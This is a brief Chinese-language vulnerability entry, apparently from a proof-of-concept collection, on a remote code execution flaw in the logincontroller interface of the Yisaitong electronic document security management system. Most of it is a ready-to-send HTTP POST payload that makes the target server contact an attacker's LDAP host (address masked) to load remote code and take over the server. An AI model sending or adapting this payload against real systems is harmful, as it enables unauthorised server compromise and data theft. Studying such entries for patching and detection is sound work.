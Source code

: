 **漏洞描述：**

亿赛通电子文档安全管理系统logincontroller接口存在远程代码执行漏洞，攻击者可利用该漏洞获取服务器权限。

**影响版本：**

亿赛通Version<V5.6.3.152.179_116511

**Payload：**

```php
POST /CDGServer3/logincontroller HTTP/1.1
Host:host
Content-Type: application/x-www-form-urlencoded
Connection: close
fromurl=/LdapAjax&token=1&command=testConnection&hosts=ldap://***.***.***.***:****/CN=account,OU=exp,DC=exp,DC=com&users=account&dns=CN=account,OU=exp,DC=exp,DC=com&dns2=OU=exp,DC=exp,DC=com&type=0&pwds=123456
```

---
